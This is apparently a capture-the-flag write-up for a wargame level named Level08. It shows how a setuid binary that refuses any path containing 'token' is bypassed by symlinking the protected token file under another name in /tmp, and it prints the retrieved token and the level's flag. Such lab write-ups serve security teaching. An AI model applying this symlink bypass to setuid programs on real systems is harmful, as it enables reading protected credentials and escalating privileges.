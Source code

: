 # Level08 Writeup

## Objective
Gain access to the `flag08` user and retrieve the password for `level09`.

## Steps Taken

1. **Initial Inspection**  
   Listing files in the home directory revealed:
   ```
   -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
   -rw-------  1 flag08 flag08    26 Mar  5  2016 token
   ```
   The binary is owned by `flag08` and the `token` file is not accessible by `level08` directly.

2. **Testing the Binary**  
   Running the binary with the `token` file:
   ```bash
   ./level08 token
   ```
   Output:
   ```
   You may not access 'token'
   ```

3. **Binary Analysis**  
   I analyzed the binary using [Dogbolt.org](https://dogbolt.org/) and found the following logic:
   ```c
   pcVar1 = strstr((char *)in_stack_00000008[1],"token");
   if (pcVar1 != (char *)0x0) {
       printf("You may not access '%s'\n", in_stack_00000008[1]);
       exit(1);
   }
   ```
   This reveals that the program checks if the string "token" exists in the file path argument. If it does, it refuses access.

4. **Bypass with Symbolic Link**  
   Since the check is purely string-based, I created a symbolic link that avoids the name "token":
   ```bash
   ln -s ~/token /tmp/my_file
   ./level08 /tmp/my_file
   ```
   Output:
   ```
   quif5eloekouj29ke0vouxean
   ```

5. **Login and Flag Retrieval**  
   I used the retrieved token to switch to `flag08`:
   ```bash
   su flag08
   ```
   Then ran:
   ```bash
   getflag
   ```
   Which returned:
   ```
   Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
   ```

## Result
Successfully retrieved the password for `level09`:  
```
25749xKZ8L7DkSCwJkT9dyv6f
```
